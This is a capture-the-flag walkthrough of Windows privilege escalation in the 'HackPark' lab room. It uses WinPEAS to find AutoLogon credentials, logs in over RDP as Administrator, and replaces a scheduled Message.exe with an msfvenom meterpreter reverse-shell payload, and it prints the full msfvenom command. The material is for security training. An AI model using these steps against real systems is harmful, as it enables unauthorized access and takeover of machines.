 Now that we have a stable shell, we wish to escalate privileges. Using `sysinfo` gives us some more information about the Windows machine.

<center>

![ef80725497f42f86fff2a3f0ac010f3d.png](/HackPark/_resources/ef80725497f42f86fff2a3f0ac010f3d-1.png)

</center>

The room suggests feeding the output into [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) in order to determine further exploits for privilege escalation. However, this didn't seem to work for me. Instead, we'll use WinPEAS. We download the x64 exe file [from here](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) and we transfer it to the target system. Here, I switched to a Windows shell within meterpreter with `shell powershell` and used the same command we used before.

<center>

![a556bb3bcc0fd6bcf88720ab09fa4b6e.png](/HackPark/_resources/a556bb3bcc0fd6bcf88720ab09fa4b6e-1.png)

</center>

We then run winPEASx64.exe. We find some AutoLogon credentials.

<center>

![b295c359179f0979ebbdecbdd843c173.png](/HackPark/_resources/b295c359179f0979ebbdecbdd843c173-1.png)

</center>

We saw that port 3389 was open and serving a Microsoft Web Server. We can use this to connect to the machine as administrator. Open a new terminal and use the command `xfreerdp /tls-seclevel:0 /u:Administrator /p:<password> /v:10.10.0.19`.

(Note: I had issues connecting to the Windows machine via RDP; a bit of Googling suggested modifying the tls-seclevel parameter. The above parameter worked for me, although I'm not sure why.)

After RDPing into the machine, we have root access. The root flag is found on the desktop.

<center>

![e0b4da138dfc97dec15f63bb7e4141cc.png](/HackPark/_resources/e0b4da138dfc97dec15f63bb7e4141cc-1.png)

</center>

Similarly, we can navigate to Jeff's desktop to obtain his flag.

<center>

![b7a8c407998e463c4527ee3e432c1a3c.png](/HackPark/_resources/b7a8c407998e463c4527ee3e432c1a3c-1.png)

</center>

Alternatively, we can follow the intended path given in Task 4 of the room. Sifting through the winPEAS output, we eventually find an abnormal service running on the Windows machine.

<center>

![6b5ec3c6fd6524ee0e3fcd0fa2f10dae.png](/HackPark/_resources/6b5ec3c6fd6524ee0e3fcd0fa2f10dae-1.png)

</center>

It seems that something is happening with the Windows Scheduler service. We caught a glimpse of this when we RDP'd into the machine; every minute or so, a strange message pops up. Within our netcat session, we navigate to `C:\Program Files (x86)\SystemScheduler` and run `tasklist /v` to see a list of currently running tasks. We note that the file `Message.exe` seems to be sheduled.

<center>

![47cc8dde9b28889cfdc4f0f59e13b6a7.png](/HackPark/_resources/47cc8dde9b28889cfdc4f0f59e13b6a7-1.png)

</center>

Our goal is to replace this file with our msfvenom payload in order to spawn a reverse shell. We use the same command as before to generate the payload, making sure to use a different port this time.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.30.43 LPORT=9998 -f exe -o Message.exe 
```

Now repeat the steps from the previous task by setting up a Metasploit handler: Delete the old Message.exe file with `del /f Message.exe`, upload the new Message.exe payload to the target system, and wait for the task to execute. Since the system scheduler runs with admin privileges, this gives us a reverse shell with elevated privileges which we can use to access the two needed flags. Now we can navigate to the relevant folders within the meterpreter shell to find the flags.

<center>

![cf3e3caf2dcae4113c340614d619b940.png](/HackPark/_resources/cf3e3caf2dcae4113c340614d619b940-1.png)

![5388252d3f95cf1883f78afa49146da9.png](/HackPark/_resources/5388252d3f95cf1883f78afa49146da9-1.png)

</center>

To finish the room, we just need to find the original install time. This type of information can be found in the winPEAS output. The correct date and time turns out to be the same as the last time the Administrator's password was reset.

<center>

![06e783f7ae4b055418e0574d50c22ff6.png](/HackPark/_resources/06e783f7ae4b055418e0574d50c22ff6-1.png)

</center>